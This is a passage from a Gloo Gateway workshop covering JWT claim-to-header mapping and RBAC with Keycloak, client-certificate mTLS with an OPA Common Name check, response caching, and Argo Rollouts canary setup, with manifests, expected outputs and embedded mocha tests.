metadata:
  name: keycloak
  namespace: gloo-system
spec:
  static:
    hosts:
      - addr: ${HOST_KEYCLOAK}
        port: ${PORT_KEYCLOAK}
EOF
```

Then, we need to create a `VirtualHostOption` to validate the JWT token and extract the `email` claim.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualHostOption
metadata:
  name: jwt
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: http
    namespace: gloo-system
    sectionName: https-httpbin
  options:
    jwtStaged:
      beforeExtAuth:
        providers:
          keycloak:
            issuer: ${KEYCLOAK_URL}/realms/workshop
            tokenSource:
              headers:
              - header: jwt
            jwks:
              remote:
                url: ${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs
                upstreamRef:
                  name: keycloak
                  namespace: gloo-system
            claimsToHeaders:
            - claim: email
              header: X-Email
EOF
```

This is targeting the `https-httpbin` section of the `Gateway`.

Try accessing the `httpbin` application without any token.

```shell
curl -k https://httpbin.example.com/get
```

You should get a `Jwt is missing` error message.

Let's get a JWT token:

```bash
export USER1_COOKIE_JWT=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=gloo-ext-auth" \
  -d "client_secret=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri" \
  -d "username=user1" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)
```

Now, you should be able to access it:

```shell
curl -k https://httpbin.example.com/get -H "jwt: ${USER1_COOKIE_JWT}"
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Email": [
      "user1@example.com"
    ],
    "X-Envoy-Expected-Rq-Timeout-Ms": [
      "15000"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "3eda8433-741d-40fd-887e-b6dddca89a3d"
    ]
  },
  "method": "GET",
  "origin": "10.101.0.18:60788",
  "url": "https://httpbin.example.com/get"
}
```

You should see a new `X-Email` header added to the request with the value `user1@example.com`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
  const jwtString = process.env.USER1_COOKIE_JWT;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"X-Email":' }));
  it('The new header has value', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"user1@example.com"' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/jwt/tests/header-added.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

We can also update the `VirtualHostOption` to add a RBAC rule to only allow a user with the email `user2@solo.io` to access the application.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualHostOption
metadata:
  name: jwt
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: http
    namespace: gloo-system
    sectionName: https-httpbin
  options:
    jwtStaged:
      beforeExtAuth:
        providers:
          keycloak:
            issuer: ${KEYCLOAK_URL}/realms/workshop
            tokenSource:
              headers:
              - header: jwt
            jwks:
              remote:
                url: ${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs
                upstreamRef:
                  name: keycloak
                  namespace: gloo-system
            claimsToHeaders:
            - claim: email
              header: X-Email
    rbac:
      policies:
        viewer:
          principals:
          - jwtPrincipal:
              claims:
                email: user2@solo.io
EOF
```

Try accessing the `httpbin` application again.

```shell
curl -k https://httpbin.example.com/get -H "jwt: ${USER1_COOKIE_JWT}"
```

You should get a `RBAC: access denied` error message.

Let's get a JWT token for the second user.

We will use gloo to add conditional access to the `httpbin` service based on the `email` scope and claim in the JWT token.

```bash
export USER2_COOKIE_JWT=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=gloo-ext-auth" \
  -d "client_secret=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri" \
  -d "username=user2" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)
```

You should be able to access the application with this user.

```shell
curl -k https://httpbin.example.com/get -H "jwt: ${USER2_COOKIE_JWT}"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Only User2 can access httpbin", function() {
  const jwt1String = process.env.USER1_COOKIE_JWT;
  it('User1 access is refused', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwt1String }], body: 'RBAC: access denied' }));
  const jwt2String = process.env.USER2_COOKIE_JWT;
  it('User2 access is allowed', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwt2String }], body: '"user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/jwt/tests/only-user2-allowed.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Let's delete the `VirtualHostOption` we've created:

```bash
kubectl --context ${CLUSTER1} -n gloo-system delete virtualhostoption jwt
```


## Lab 31 - Validate and authorize client certificates <a name="lab-31---validate-and-authorize-client-certificates-"></a>

In this step, we're going to secure the access to the httpbin service using mutual TLS (mTLS), and apply further authorization based on information in the client certificate.

First, we need to make sure we have certificates for both the server (which is our `Gateway` in this case) and the client.
We already have the serving certificate that we created when exposing the httpbin application using HTTPS, so next we need to create the certificate that our clients will use to access the httpbin application.

Create a new certificate authority (CA) that will sign keys for our clients and be trusted by the gateway:

```bash
openssl req -x509 \
  -nodes \
  -days 365 \
  -newkey rsa:4096 \
  -keyout client-ca.key \
  -out client-ca.crt \
  -sha512 \
  -subj "/CN=clientca"
```

We need the gateway to trust this CA, so we'll add it to the existing `tls-secret` that is used for TLS termination:

```bash
kubectl -n gloo-system create secret generic tls-secret \
  --type=kubernetes.io/tls \
  --from-file=tls.crt \
  --from-file=tls.key \
  --from-file=ca.crt=client-ca.crt \
  --dry-run=client -o yaml \
  | kubectl --context ${CLUSTER1} apply -f -
```

The gateway is already configured to use this secret in its TLS configuration, so this will now cause the gateway to require and validate client certificates on all requests.

Create and sign a certificate for a client that is authorized to access the httpbin service:

```bash
openssl req -x509 \
  -nodes \
  -days 365 \
  -newkey rsa:4096 \
  -CA client-ca.crt \
  -CAkey client-ca.key \
  -keyout authorized-client.key \
  -out authorized-client.crt \
  -sha512 \
  -subj "/C=US/ST=Massachusetts/L=Boston/O=Solo-io/OU=pki/CN=authorized-client" \
  -addext "basicConstraints = CA:false" \
  -addext "extendedKeyUsage = clientAuth"
```

Now we can test that the httpbin service is only accessible when the client provides its own valid certificate.

Try to access httpbin without providing a client certificate:

```shell
curl -k https://httpbin.example.com/get
```

You should get an SSL error similar to this:

```,nocopy
curl: (56) OpenSSL SSL_read: OpenSSL/3.0.13: error:0A00045C:SSL routines::tlsv13 alert certificate required, errno 0
```

Now try to access the service using the client certificate that we generated and signed with the client CA:

```shell
curl -k https://httpbin.example.com/get --cert authorized-client.crt --key authorized-client.key
```

You should get the usual response from the httpbin application:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "da97c85e-b500-4f2a-81e7-bb4cda2605a7"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:52655",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const chai = require("chai");
const helpersHttp = require('./tests/chai-http');
const https = require("https");

describe("Downstream mTLS", () => {
  it("rejects requests without client certificate", (done) => {
    const options = {
      hostname: `httpbin.example.com`,
      port: 443,
      path: '/get',
      method: 'GET',
      rejectUnauthorized: false,
      agent: false, // Disable the agent to avoid keeping sockets open for reuse, which leads to the test not exiting in some cases
    };

    const req = https.request(options, (res) => {
      done(new Error('Request should fail'));
    });

    req.on('error', (err) => {
      chai.expect(err.message).to.include('tlsv13 alert certificate required');
      done();
    });

    req.end();
  });

  it("allows requests with valid client certificate", async () => await helpersHttp.checkURL({
      host: `https://httpbin.example.com`,
      path: '/get',
      certFile: 'authorized-client.crt',
      keyFile: 'authorized-client.key',
      retCode: 200
    }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/downstream-mtls/tests/mtls.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

We've now enforced mutual TLS at the gateway, such that all clients accessing the httpbin service must present a valid certificate signed by the client CA trusted by the gateway.

Next, let's perform an authorization step on these requests so that we can control which clients (as given in their certificate's Common Name, or `CN`) can access the httpbin application.

To do this, we need to make sure the gateway forwards details of the client certificate's Subject to the upstream httpbin service. We do this by creating an `HttpListenerOption` that provides additional configuration to the gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: HttpListenerOption
metadata:
  name: forward-client-cert
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: http
    sectionName: https-httpbin
  options:
    httpConnectionManagerSettings:
      forwardClientCertDetails: APPEND_FORWARD
      setCurrentClientCertDetails:
        subject: true
EOF
```

Access the httpbin application again, and look for a new `X-Forwarded-Client-Cert` header in the response:

```shell
curl -k https://httpbin.example.com/get --cert authorized-client.crt --key authorized-client.key
```

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "8e61c480-6373-4c38-824b-2bfe89e79d0c"
    ],
    "X-Forwarded-Client-Cert": [
      "Hash=672e1b132aed6505db21717c3510f1dd5d3149c0070f4ae5a562cef95444f543;Subject=\"CN=authorized-client,OU=pki,O=Solo-io,L=Boston,ST=Massachusetts,C=US\""
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:52655",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Client certificate forwarding", () => {
  it('adds \'X-Forwarded-Client-Cert\' header', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', certFile: 'authorized-client.crt', keyFile: 'authorized-client.key', body: 'X-Forwarded-Client-Cert', match: true }));
})

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/downstream-mtls/tests/x-forwarded-client-cert.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

With the `Subject` of the client certificate now available in the `X-Forwarded-Client-Cert` header, the team in charge of the httpbin application can use an OPA rule to check that the Common Name (`CN`) in the `Subject` is in a list of permitted clients:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: client-cert-cn
  namespace: httpbin
spec:
  configs:
    - opaAuth:
        modules:
        - name: allow-authorized-clients-by-common-name
          namespace: httpbin
        query: "data.test.allow == true"
---
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-authorized-clients-by-common-name
  namespace: httpbin
data:
  policy.rego: |-
    package test

    import future.keywords.if
    import future.keywords.in

    default allow := false

    allow if cn(input.http_request.headers["x-forwarded-client-cert"]) in ["authorized-client"]

    cn(client_cert) := cn if {
        # Split the client cert by semicolon and find the Subject
        cert_parts := split(client_cert, ";")
        some subject_string in cert_parts
        startswith(subject_string, "Subject=")
        subject := trim(trim_left(subject_string, "Subject="), "\\\\\"")

        # Extract the CN from the Subject field
        subject_parts := split(subject, ",")
        some cn_string in subject_parts
        startswith(cn_string, "CN=")
        cn := trim_left(cn_string, "CN=")
    }

EOF
```

Reference this `AuthConfig` in a `RouteOption` resource that can be associated with the httpbin route:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: client-cert-cn
        namespace: httpbin
EOF
```

Finally, apply this `RouteOption` to the httpbin route:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Let's test this using the client we worked with above, who is authorised to the httpbin service based on its Common Name:

```shell
curl -k https://httpbin.example.com/get --cert authorized-client.crt --key authorized-client.key
```

You should get the usual valid response back from httpbin. This client is permitted to access the service based on its subject including `CN=authorized-client` and the OPA rule we created above permitting this Common Name.

Now, let's make sure that a new client that is not authorized to use the httpbin service _cannot_ access it.

Create a new certificate signed by the same CA for a client that is _not_ authorized to access the httpbin service:

```bash
openssl req -x509 \
  -nodes \
  -days 365 \
  -newkey rsa:4096 \
  -CA client-ca.crt \
  -CAkey client-ca.key \
  -keyout unauthorized-client.key \
  -out unauthorized-client.crt \
  -sha512 \
  -subj "/C=US/ST=Massachusetts/L=Boston/O=Solo-io/OU=pki/CN=unauthorized-client" \
  -addext "basicConstraints = CA:false" \
  -addext "extendedKeyUsage = clientAuth"
```

Note that we created this with a subject containing `CN=unauthorized-client`:

```shell
openssl x509 -in unauthorized-client.crt -noout -subject
```

Try to access the httpbin service with this client certificate:

```shell
curl -Ik https://httpbin.example.com/get --cert unauthorized-client.crt --key unauthorized-client.key
```

You should be denied:

```http,nocopy
HTTP/2 403
content-length: 8
content-type: text/plain
date: Thu, 29 Aug 2024 16:58:39 GMT
server: envoy
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authorization based on Common Name", () => {
    it("allows requests to httpbin with authorized client certificate", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', certFile: 'authorized-client.crt', keyFile: 'authorized-client.key', retCode: 200 }));
    it("denies requests to httpbin with unauthorized client certificate", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', certFile: 'unauthorized-client.crt', keyFile: 'unauthorized-client.key', retCode: 403 }));
})

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/downstream-mtls/tests/authorization.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Now, the team in charge of the gateway has enforced mutual authentication that validates that client certificates were signed by a trusted CA, and the httpbin team has extended it with an authorization policy using OPA that checks the client certificate's Common Name and allows requests only if the Common Name is in a preconfigured list of clients.

Set the secret containing the serving certificate back to its original content:

```bash
kubectl -n gloo-system create secret tls tls-secret \
  --key tls.key \
  --cert tls.crt \
  --dry-run=client -o yaml \
  | kubectl --context ${CLUSTER1} apply -f -
```

Reset the `HTTPRoute` back to its original state:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

And finally delete the resources we created to configure authorization:

```bash
kubectl --context ${CLUSTER1} -n gloo-system delete HttpListenerOption forward-client-cert
kubectl --context ${CLUSTER1} -n httpbin delete AuthConfig client-cert-cn
kubectl --context ${CLUSTER1} -n httpbin delete ConfigMap allow-authorized-clients-by-common-name
kubectl --context ${CLUSTER1} -n httpbin delete RouteOption routeoption
```


## Lab 32 - Use the `cache-control` response header to cache responses <a name="lab-32---use-the-`cache-control`-response-header-to-cache-responses-"></a>

An HTTP or HTTPS listener on your gateway can be configured to cache responses for upstream services.
When the listener routes a request to an upstream service, the response from the upstream is automatically cached by the caching server if it contains a `cache-control` response header.
All subsequent requests receive the cached response until the cache entry expires.

Check that we have a caching service running in the Gloo Gateway installation:

```shell
kubectl --context ${CLUSTER1} -n gloo-system get deploy caching-service
```

You should see a healthy deployment of the caching service:

```,nocopy
NAME              READY   UP-TO-DATE   AVAILABLE   AGE
caching-service   1/1     1            1           166m
```

This service is responsible for creating the cached responses in the backing Redis datastore when an eligible response is being processed.


To work around bug #6709, we need to remove some global caching configuration from Gloo Gateway's default settings:

```bash
kubectl --context ${CLUSTER1} patch settings default -n gloo-system --type json \
  -p '[{ "op": "remove", "path": "/spec/cachingServer" }]'

sleep 5
```

The **httpbin** application has some utility endpoints we can use to test that caching is applied.
First of all, let's make sure that caching is *not* being applied by making a request to the `/cache` endpoint, passing a cache time-to-live (TTL) value of 10 seconds that we want the service to use in the response `cache-control` header:

```shell
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
```

We'll get a response like this back, which includes the `cache-control` header set by the application with a value `max-age=10`:

```http,nocopy
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Mon, 29 Jul 2024 14:10:48 GMT
content-length: 513
x-envoy-upstream-service-time: 0
server: envoy
```

Send a second request within that cache TTL of 10 seconds and look at the response:

```shell
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
```

```http,nocopy
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Mon, 29 Jul 2024 14:10:53 GMT
content-length: 513
x-envoy-upstream-service-time: 0
server: envoy
```

See that the timestamp in the `date` headers of the two responses are different, meaning that we got a fresh response back from the **httpbin** application each time.

<!--bash
cat <<'EOF' > ./test.js
const chaiHttp = require("chai-http");
const chai = require("chai");
const crypto = require("crypto")
const expect = chai.expect;

chai.use(chaiHttp);
process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0';

const httpbin = `https://httpbin.example.com`;
const cachepath = '/cache/1';
var path_key;

describe("response caching", function() {

  // Make the first request whose response would be cached if enabled
  beforeEach(function(done) {
    path_key = crypto.randomUUID();
    chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
      if (err) return done(err);
      done();
    });
  });

  it('returns a fresh response within cache TTL', function(done) {
    setTimeout(() => {
      chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
        if (err) return done(err);
        try {
          expect(response).to.have.status(200);
          expect(response).to.not.have.header('age');
          done();
        } catch (e) {
          done(e);
        }
      });
    }, 100);
  });

})

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/caching/tests/caching-doesnt-apply.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=10 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

In this example we'll configure caching on all routes processed by the `Gateway` that we have already set up.
We do this by defining a `HttpListenerOption` resource that includes a reference to the caching server:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: HttpListenerOption
metadata:
  name: cache
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: http
  options:
    caching:
      cachingServiceRef:
        name: caching-service
        namespace: gloo-system
EOF
```

Note that this refers to the `Gateway` resource as a whole, so it will apply to all listeners on that gateway.
We can also restrict it to a particular listener by including a value for `sectionName` corresponding to the `name` of a given listener.

Let's test this configuration by making three requests to the `/cache` endpoint with a 10s cache TTL value, waiting 6 seconds between requests:

```shell
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
sleep 6
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
sleep 6
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
```

Check the responses:

```http,nocopy
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Mon, 29 Jul 2024 14:25:05 GMT
content-length: 513
x-envoy-upstream-service-time: 0
server: envoy

HTTP/2 200 
access-control-allow-credentials: true
cache-control: public, max-age=10
x-envoy-upstream-service-time: 0
access-control-allow-origin: *
date: Mon, 29 Jul 2024 14:25:05 GMT
content-type: application/json; charset=utf-8
content-length: 513
age: 6
server: envoy

HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Mon, 29 Jul 2024 14:25:17 GMT
content-length: 513
x-envoy-upstream-service-time: 0
server: envoy
```

<!--bash
cat <<'EOF' > ./test.js
const chaiHttp = require("chai-http");
const chai = require("chai");
const crypto = require("crypto")
const expect = chai.expect;

chai.use(chaiHttp);
process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0';

const httpbin = `https://httpbin.example.com`;
const cachepath = '/cache/1';
var path_key;

describe("response caching", function() {
  this.timeout(3000); // The test needs more than default (2secs)

  // Make the first request whose response will be cached
  beforeEach(function(done) {
    path_key = crypto.randomUUID();
    chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
      if (err) return done(err);
      done();
    });
  });

  it('returns a cached response within cache TTL', function(done) {
    setTimeout(() => {
      chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
        if (err) return done(err);
        try {
          expect(response).to.have.status(200);
          expect(response).to.have.header('age');
          done();
        } catch (e) {
          done(e);
        }
      });
    }, 100);
  });

  it('returns a fresh response beyond cache TTL', function(done) {
    setTimeout(() => {
      chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
        if (err) return done(err);
        try {
          expect(response).to.have.status(200);
          expect(response).to.not.have.header('age');
          done();
        } catch (e) {
          done(e);
        }
      });
    }, 2000);
  });

})

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/caching/tests/caching-applies.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Notice that the first two responses have the same `date` header showing that the response for the first request was also returned as the response for the second request.
The second response also has a new `age` header, corresponding to how long the response has been cached for.

The third response has a different `date` timestamp and no `age` header:
this request was made 12 seconds after the first, but the cache entry had expired 10 seconds after the original request, so the third request did not receive a cached response.

Let's delete the `HttpListenerOption` we created:

```bash
kubectl --context ${CLUSTER1} -n gloo-system delete httplisteneroption cache
```


## Lab 33 - Deploy Argo Rollouts <a name="lab-33---deploy-argo-rollouts-"></a>

[Argo Rollouts](https://argoproj.github.io/rollouts/) is a declarative progressive delivery tool for Kubernetes that we can use to update applications gradually, using a blue/green or canary strategy to manage the rollout.

Run the following commands to install Argo Rollouts in your environment:

```bash
helm upgrade --install argo-rollouts argo-rollouts \
  --repo https://argoproj.github.io/argo-helm \
  --version 2.37.6 \
  --kube-context ${CLUSTER1} \
  --namespace argo-rollouts \
  --create-namespace \
  --wait \
  -f -<<EOF
controller:
  trafficRouterPlugins:
    trafficRouterPlugins: |-
      - name: "argoproj-labs/gatewayAPI"
        location: "https://github.com/argoproj-labs/rollouts-plugin-trafficrouter-gatewayapi/releases/download/v0.3.0/gateway-api-plugin-linux-amd64"
EOF
```

Download and install the Argo Rollouts plugin for `kubectl`:

```bash
mkdir -p ${HOME}/bin
curl -Lo ${HOME}/bin/kubectl-argo-rollouts "https://github.com/argoproj/argo-rollouts/releases/latest/download/kubectl-argo-rollouts-$(uname | tr '[:upper:]' '[:lower:]')-$(uname -m | sed 's/aarch/arm/' | sed 's/x86_/amd/')"
chmod +x ${HOME}/bin/kubectl-argo-rollouts
export PATH=$HOME/bin:$PATH
```

Now we're ready to use Argo Rollouts to progressively update applications as part of continuous delivery.


## Lab 34 - Roll out a new app version using Argo Rollouts <a name="lab-34---roll-out-a-new-app-version-using-argo-rollouts-"></a>

We're going to use Argo Rollouts to gradually deliver an upgraded version of our httpbin application.
To do this, we'll define a resource that lets Argo Rollouts know how we want it to handle updates to our application,
upgrade the application itself, and then step through the stages of the rollout and see how it interacts with our gateway resources.

First, convert the current `httpbin1` deployment to an Argo Rollouts [`Rollout`](https://argo-rollouts.readthedocs.io/en/stable/features/specification/)
and downgrade the version of the application, so that we can upgrade it as a managed rollout:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: argoproj.io/v1alpha1
kind: Rollout
metadata:
  name: httpbin1
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: httpbin1
      version: v1
  strategy:
    canary:
      steps:
      - pause: {}
      - setWeight: 50
      - pause: {}
      - setWeight: 100
      - pause: {}
  template:
    metadata:
      labels:
        app: httpbin1
        version: v1
    spec:
      serviceAccountName: httpbin1
      containers:
      - name: httpbin
        image: mccutchen/go-httpbin:v2.13.4
        command: [ go-httpbin ]
        args:
          - "-max-duration"
          - "600s" # override default 10s
          - -use-real-hostname
        ports:
          - name: http
            containerPort: 8080
            protocol: TCP
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http
        resources:
          limits:
            cpu: 1
            memory: 512Mi
          requests:
            cpu: 100m
            memory: 256Mi
        env:
        - name: K8S_MEM_LIMIT
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.memory
        - name: GOMAXPROCS
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.cpu
EOF

kubectl --context ${CLUSTER1} -n httpbin delete deployment httpbin1
```

<!--bash
echo -n Waiting for rollout to be ready...
timeout -v 5m bash -c "until [[ \$(kubectl argo rollouts --context ${CLUSTER1} -n httpbin status httpbin1 -t 1s 2>/dev/null) ]]; do
  sleep 1
  echo -n .
done"
echo
-->

> *We elected to convert our deployment to a `Rollout`, but we could also have created a new `Rollout` with a reference to the existing deployment,
as documented [here](https://argo-rollouts.readthedocs.io/en/stable/migrating/#reference-deployment-from-rollout).*

Note that a `Rollout` is very similar to a `Deployment`, but with additional information to express how an update to the application should be delivered.
In our case, we've specified the "canary" strategy and given it five steps:

```,nocopy
  strategy:
    canary:
      steps:
      - pause: {}
      - setWeight: 50
      - pause: {}
      - setWeight: 100
      - pause: {}
```

These steps define the canary strategy:

* When detecting a new application version, first **do nothing** until instructed to proceed
* Set weights to **split traffic equally** between the existing stable application and the new canary version, then await an instruction to continue
* Set weights to send **all traffic** to the new canary version, then await an instruction to continue
* Complete the rollout by replacing the previous stable version with the new canary version, and removing the previous stable version

You can now see the status of the rollout in the Argo Rollouts CLI and dashboard.
List all rollouts in the cluster with the CLI:

```shell
kubectl argo rollouts --context ${CLUSTER1} list rollouts -A
```

Get the specific details of our rollout with this command:

```bash
kubectl argo rollouts --context ${CLUSTER1} -n httpbin get rollout httpbin1
```

You should see a rich output that shows the rollout with a single revision in its completed state:

```,nocopy
Name:            httpbin1
Namespace:       httpbin
Status:          ✔ Healthy
Strategy:        Canary
  Step:          5/5
  SetWeight:     100
  ActualWeight:  100
Images:          mccutchen/go-httpbin:v2.13.4 (stable)
Replicas:
  Desired:       1
  Current:       1
  Updated:       1
  Ready:         1
  Available:     1

NAME                                 KIND        STATUS     AGE  INFO
⟳ httpbin1                           Rollout     ✔ Healthy  12s  
└──# revision:1                                                  
   └──⧉ httpbin1-9fcf7cc96           ReplicaSet  ✔ Healthy  12s  stable
      └──□ httpbin1-9fcf7cc96-7pr4f  Pod         ✔ Running  12s  ready:1/1
```

The same information is available in the Argo Rollouts dashboard.
You can access the dashboard by running this command:

```shell
kubectl argo rollouts --context ${CLUSTER1} dashboard
```

and visiting  <http://localhost:3100/rollouts> in your browser. Press `Ctrl+C` in the terminal to get your prompt back when you're finished.

We haven't yet provided information on how to set the weights to actually impact traffic to the application versions.
Let's do that by creating a new canary service, identical to the existing service in all but name, and adding it as a backend in the `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: httpbin1-canary
  namespace: httpbin
  labels:
    app: httpbin1
    service: httpbin1
spec:
  ports:
  - name: http
    port: 8000
    targetPort: http
    protocol: TCP
    appProtocol: http
  selector:
    app: httpbin1
EOF

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
        - name: httpbin1-canary
          port: 8000
EOF
```

Then we can configure the rollout to let it know which service is for our stable application, which is for the canary version, and which Gateway API `HTTPRoute` should be manipulated:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: argoproj.io/v1alpha1
kind: Rollout
metadata:
  name: httpbin1
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: httpbin1
      version: v1
  strategy:
    canary:
      steps:
      - pause: {}
      - setWeight: 50
      - pause: {}
      - setWeight: 100
      - pause: {}
      stableService: httpbin1
      canaryService: httpbin1-canary
      trafficRouting:
        plugins:
          argoproj-labs/gatewayAPI:
            httpRoute: httpbin
